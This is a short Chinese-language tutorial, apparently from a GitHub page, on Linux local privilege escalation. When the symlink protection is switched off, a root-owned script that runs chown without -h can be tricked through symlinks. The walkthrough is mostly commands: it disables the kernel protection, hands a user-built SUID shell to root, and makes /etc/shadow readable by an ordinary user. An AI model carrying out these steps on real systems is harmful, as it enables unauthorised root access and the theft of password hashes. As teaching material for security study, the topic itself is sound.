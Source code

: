 当Linux发行版禁用对符号链接的保护时：echo 0 > /proc/sys/fs/protected_symlinks

对软链接文件执行chown操作时，如果未加-h参数，实际将会操作原文件。

利用该特点我们能实现对文件的提权与降权。

### 文件提权

root用户创建了以下下脚本

```shell
tee 1.sh <<EOF
#!/bin/bash
chown root:root ./2.sh
EOF

chmod 4755 ./1.sh
```



aplyc1a用户执行以下步骤，创建对自己生成的suidshell的软链接。

```shell
gcc suid.c -o suid.shell
chmod +x suid.shell
ln -s ./suid.shell 2.sh
```

之后，aplyc1a依次执行1.sh、2.sh即可实现提权。

```shell
bash 1.sh
./2.sh
```

### 文件降权

root用户创建了以下下脚本

```shell
tee 1.sh <<EOF
#!/bin/bash
chown aplyc1a:aplyc1a ./2.sh
EOF
chmod 4755 ./1.sh
```

aplyc1a用户执行以下步骤，创建对/etc/shadow的软链接。

```shell
ln -s /etc/shadow 2.sh
```

之后，aplyc1a依次执行1.sh、2.sh即可实现对shadow文件的降权，从而可以读取文件内容。

```shell
bash 1.sh
cat ./2.sh
```

### 
